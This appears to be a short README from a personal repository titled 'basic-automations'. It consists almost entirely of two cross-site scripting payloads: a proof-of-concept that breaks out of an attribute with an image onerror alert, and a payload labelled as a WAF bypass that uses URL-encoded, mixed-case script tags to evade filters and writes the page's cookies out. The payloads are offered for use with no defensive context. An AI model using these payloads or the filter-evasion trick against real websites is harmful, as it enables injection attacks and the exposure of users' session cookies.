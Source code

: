 # basic-automations
For Personal Use Only.

# After Getting Result
Payload:

```
"><img%20src=x%20onerror="alert(%27POC%20By%20Xalgord%27)"
```

WAF Bypass Payload:

```
<%2FScriPt><sCripT+class%3DXalgord>document.write(document.cookie);<%2FsCriPt>
```
